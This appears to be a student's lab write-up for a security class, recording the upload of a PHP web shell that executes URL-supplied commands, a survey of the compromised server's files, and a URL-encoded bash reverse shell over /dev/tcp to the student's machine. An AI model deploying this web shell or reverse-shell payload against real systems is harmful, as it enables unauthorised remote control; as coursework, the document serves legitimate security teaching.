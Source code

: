# Reverse Shell

## NAME: Bryan Yang

#### PART 1: Installing a PHP web shell
Webshell: 

    ```
    <pre>
    <?php
        if (isset($_REQUEST["command"])) {
            system($_REQUEST["command"]);
        } else {
            echo "No command requested.";
        }
    ?>
    </pre>
    ```
a). I can add arguments to the url, so for this case I can do using '?' like so: http://danger.jeffondich.com/uploadedimages/yangb2-webshell2.php?command=w 
 - **Result**:      03:56:21 up 353 days,  7:16,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
 

b). For browsers, newlines in HTML are treated as spaces. The pre tag tells the browser to treat the following text as pre-formatted.  


#### PART 2: Looking Around
a). /var/www/

b). jeff, root, and ww-data. That's what I see when I do ls -la

c). List of services and the location of their passwords(?)

d). No. It is similar to passwd but has restricted access, usually only root can read.

e). 
 - /secrets/kindasecret.txt has an ascii frog. by Joan Stark.
 - /youwontfindthiswithgobuster/secret.txt has 2 ascii birds 

#### PART 4: Launching a Reverse Shell
a). I did the command 'ip addr' and looked the the eth0 inet address: **192.168.231.129**

b). I did ipaddr on wsl to get **192.168.248.52**

d). http://192.168.231.129/webshell.php?command=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.248.52/8000%200%3E%261%22

e). Yes, i have a shell now. When I do 'ip addr' the result says "192.168.231.129" which is the address of kali. 

f). 20 is space. 22 is quote. 3E is greater than. 26 is ampersand. 